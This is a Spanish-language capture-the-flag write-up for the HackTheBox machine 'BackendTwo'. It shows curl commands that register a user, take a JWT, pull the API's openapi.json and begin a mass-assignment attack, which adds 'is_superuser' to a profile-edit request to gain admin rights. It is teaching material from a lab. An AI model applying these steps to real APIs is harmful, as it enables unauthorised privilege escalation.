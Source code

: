 # Part 2: Creacion de un usaurio

Como en la anterior, vamos a crear un usaurio, siguiendo los pasos como nos dicen:
```console
└─$ curl -s -X POST http://10.10.11.162/api/v1/user/signup -H "Content-Type: application/json" -d '{"email":"cucuxii@backendtwo.htb", "password":"cucucxii123"}' | jq  # -> {}
└─$ curl -s -X POST http://10.10.11.162/api/v1/user/login -d "username=cucuxii@backendtwo.htb&password=cucucxii123" | jq  
{ "access_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MjUzNTQ2LCJpYXQiOjE2Njc1NjIzNDYsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjpmYWxzZSwiZ3VpZCI6Ijg5ZTc4OGY4LWQ3YTAtNDZjNi05NjBhLTVjZmIzOGViZDIxNyJ9.sjyNPdoQ6xP0zWKoBUfnKZCNdQnUxJ1YL5i2_FPYAN8",  "token_type": "bearer" }
```
Al igual que en la primera **backend** tenemos un directorio /docs al que se accederá por navegador añadiendo el header del **Authorization: bearer** 
con el [plugin](https://addons.mozilla.org/en-US/firefox/addon/simple-modify-header/)

![](/assets/images/htb-backend/backendtwo2.PNG)

Al igual que la anterior maquina hay un directorio openapi.json con todas las rutas, puede que haya información interesante.
```console
└─$ curl -X 'GET' \
  'http://10.10.11.162/openapi.json' \
  -H 'accept: application/json' \
  -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..." | jq > openapi.json
```
En openapi son curiosas ciertas lineas:
```
"/api/v1/admin/file/{file_name}": {
	"description": "Returns a file on the server. File name input is encoded in base64_url",
```
Probé el endpoint de editar contraseña, pero me devolvió un 403 bad requests. 

-------------------------
# Part 3: Elevando privilegios con un Mass assignment attack

- Este es mi usaurio
```
{"guid":"89e788f8-d7a0-46c6-960a-5cfb38ebd217","email":"cucuxii@backendtwo.htb","profile":null,"last_update":null,"time_created":1667562252633,"is_superuser":false,"id":12}
```
- Este es el admin
```
{"guid":"25d386cd-b808-4107-8d3a-4277a0443a6e","email":"admin@backendtwo.htb","profile":"UHC Admin","last_update":null,"time_created":1650987800991,"is_superuser":true,"id":1}
```
Lo que cambia principalmente es el parámetro **is_superuser**. 
Tenemos un endpoint para cambiar cosas del perfil, vamos a tocar el nuestro:
```console
curl -X 'PUT' 'http://10.10.11.162/api/v1/user/12/edit' \
  -H 'accept: application/json' -H 'Content-Type: application/json' \
  -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..." -d '{ "profile": "Test" }'
└─$ curl -s http://10.10.11.162/api/v1/user/12
{"guid":"89e788f8-d7a0-46c6-960a-5cfb38ebd217","email":"cucuxii@backendtwo.htb","profile":"Test","last_update":null,"time_created":1667562252633,"is_superuser":false,"id":12}  
```
Ahora el campo profile que es el que nos han dado, se ha cambiado a "Test", como he dicho ese campo NOS LO HAN DADO, pero ¿Y si metemos otro paŕametro
de cosecha propia? La diferencia entre el admin y nosotros es lo de **is_superuser**. Así que podríamos probar a meterlo
